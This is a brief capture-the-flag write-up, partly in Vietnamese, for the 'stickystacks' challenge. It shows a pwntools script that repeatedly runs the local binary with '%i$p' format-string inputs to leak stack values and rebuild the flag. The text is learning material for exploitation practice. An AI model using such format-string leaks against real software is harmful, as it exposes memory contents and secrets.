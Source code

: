 this chall limits our input

```c
fgets(name, 6, stdin);
```

so, we have to run it over and over to leak i th value from the stack: [minh run locally thoi]

```python
# expoit.py
from pwn import *
data_list = []
for i in range(1, 50):
    # run '77' 49 lan
    p = process('./stickystacks')
    p.sendline(f'%{i}$p')
    p.recvuntil('Welcome, ')        # pass 'Welcome, '
    leak_stack = p.recvline()[:-1]  # [:-1] - avoi '\n'
    if(leak_stack != b'(nil)'):
        data_list.append(p64(int(leak_stack.decode(), 16)))
    continue
print(data_list)
```

Result: [fake_flag :v]

![](fake_flag.png)

